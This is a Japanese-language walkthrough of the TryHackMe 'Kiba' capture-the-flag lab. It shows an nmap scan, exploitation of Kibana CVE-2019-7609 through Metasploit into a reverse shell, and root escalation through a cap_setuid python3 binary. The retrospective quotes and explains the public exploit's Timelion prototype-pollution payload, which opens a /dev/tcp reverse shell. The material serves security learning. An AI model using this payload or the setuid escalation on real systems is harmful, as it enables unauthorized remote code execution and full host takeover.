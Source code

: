 # Kiba CTF

https://tryhackme.com/room/kiba

## Enumeration

### ポートスキャン

```shell
TARGET=10.10.168.107
root@ip-10-10-239-143:~# sudo nmap -sS -p- $TARGET
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-15 23:19 GMT
Nmap scan report for 10.10.168.107
Host is up (0.015s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5601/tcp open  esmagent
MAC Address: 02:51:FE:6A:35:B9 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 6.44 seconds

root@ip-10-10-239-143:~# sudo nmap -sV -p22,80,5601 $TARGET
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-15 23:21 GMT
Nmap scan report for 10.10.168.107
Host is up (0.0035s latency).

PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http      Apache httpd 2.4.18 ((Ubuntu))
5601/tcp open  esmagent?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

- 5601をブラウザで表示したら、Kibanaのダッシュボード
- Managementメニューから、バージョンは6.5.4
- CVE-2019-7609 RCE脆弱性がある  
https://www.tenable.com/blog/cve-2019-7609-exploit-script-available-for-kibana-remote-code-execution-vulnerability

## CVE-2019-7609

metasploit

```shell
msf6 exploit(linux/http/kibana_timelion_prototype_pollution_rce) > set RHOSTS 10.10.168.107
RHOSTS => 10.10.168.107
msf6 exploit(linux/http/kibana_timelion_prototype_pollution_rce) > set LHOST 10.2.22.182
LHOST => 10.2.22.182
msf6 exploit(linux/http/kibana_timelion_prototype_pollution_rce) > exploit

[*] Started reverse TCP handler on 10.2.22.182:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exploitable Version Detected: 6.5.4
[*] Polluting Prototype in Timelion
[*] Trigginger payload execution via canvas socket
[*] Waiting for shells
[*] Unsetting to stop raining shells from a lacerated kibana
[*] Unsetting to stop raining shells from a lacerated kibana
[*] Command shell session 1 opened (10.2.22.182:4444 -> 10.10.168.107:39744) at 2025-03-15 19:29:43 -0400
```

セッションオープン成功。

```shell
kiba@ubuntu:/home/kiba/kibana/bin$ ls -al /home/kiba
ls -al /home/kiba
total 111064
drwxr-xr-x  6 kiba kiba      4096 Mar 15 16:29 .
drwxr-xr-x  3 root root      4096 Mar 31  2020 ..
-rw-rw-r--  1 kiba kiba    407592 Mar 15 16:29 .babel.json
-rw-------  1 kiba kiba      9605 Mar 31  2020 .bash_history
-rw-r--r--  1 kiba kiba       220 Mar 31  2020 .bash_logout
-rw-r--r--  1 kiba kiba      3771 Mar 31  2020 .bashrc
drwx------  2 kiba kiba      4096 Mar 31  2020 .cache
drwxrwxr-x  2 kiba kiba      4096 Mar 31  2020 .hackmeplease
drwxrwxr-x  2 kiba kiba      4096 Mar 31  2020 .nano
-rw-r--r--  1 kiba kiba       655 Mar 31  2020 .profile
-rw-r--r--  1 kiba kiba         0 Mar 31  2020 .sudo_as_admin_successful
-rw-r--r--  1 root root       176 Mar 31  2020 .wget-hsts
-rw-rw-r--  1 kiba kiba 113259798 Dec 19  2018 elasticsearch-6.5.4.deb
drwxrwxr-x 11 kiba kiba      4096 Dec 17  2018 kibana
-rw-rw-r--  1 kiba kiba        35 Mar 31  2020 user.txt
```

```shell
kiba@ubuntu:/home/kiba/kibana/bin$ cat /home/kiba/user.txt
cat /home/kiba/user.txt
THM{...................}
```

ユーザーフラグゲット。

## 権限昇格

質問文で capability に言及しているので調べる。

```shell
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

エクスプロイト

```shell
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

ルートシェル取得成功

```shell
# id
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

```shell
# ls -al /root
ls -al /root
total 28
drwx------  4 root root 4096 Mar 31  2020 .
drwxr-xr-x 22 root root 4096 Mar 31  2020 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Mar 31  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   45 Mar 31  2020 root.txt
drwxr-xr-x  2 root root 4096 Mar 31  2020 ufw
# cat /root/root.txt
cat /root/root.txt
THM{....................}
```

ルートフラグゲット！

## 振り返り

質問文の流れに従えば簡単で、学ぶ部分が無かったので、エクスプロイトコードの解析を行う。  
https://github.com/LandGrey/CVE-2019-7609/blob/master/CVE-2019-7609-kibana-rce.py

下記の data を "/api/timelion/run" に Postしてリバースシェルを取得している。

```python
data = r'''{"sheet":[".es(*).props(label.__proto__.env.AAAA='require(\"child_process\").exec(\"if [ ! -f /tmp/%s ];then touch /tmp/%s && /bin/bash -c \\'/bin/bash -i >& /dev/tcp/%s/%s 0>&1\\'; fi\");process.exit()//')\n.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')"],"time":{"from":"now-15m","to":"now","mode":"quick","interval":"10s","timezone":"Asia/Shanghai"}}''' % (random_name, random_name, ip, port)
```

.es は Timelionのクエリ であり、Elasticsearch からデータを取得するための構文。取得したデータ自体に意味はない。

```python
.es(*)
```

.props は Timelion（Kibana）の関数 で、グラフのプロパティを設定するために使われる。通常は下記のような形でプロパティを設定する。

```python
.es(*).props(label='CPU Usage', color='red')
```

しかし、エクスプロイトコードではプロトタイプ汚染を利用し、label の ```__proto__.env``` を介して環境変数にアクセスすることにより、

１．環境変数「AAAA」に javascript のリバースシェルコードの文字列を設定している。

```python
.props(label.__proto__.env.AAAA='require(\"child_process\").exec(\"if [ ! -f /tmp/%s ];then touch /tmp/%s && /bin/bash -c \\'/bin/bash -i >& /dev/tcp/%s/%s 0>&1\\'; fi\");process.exit()//')
```

２．環境変数「NODE_OPTIONS」に '--require /proc/self/environ' 文字列を設定している。これにより、Node.js 実行時に環境変数のリストが入った /proc/self/environ が require される。

```python
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

Node.js の require は、js ならNode.jsアドオンとしてロードし、JSONならパースする。また、テキストファイルの場合は javascript として実行しようとする。

ここで、環境変数 AAAA には js コードの文字列が設定されているため、Node.js 実行時にリバースシェルの子プロセスが生成されるという仕組みになっている。

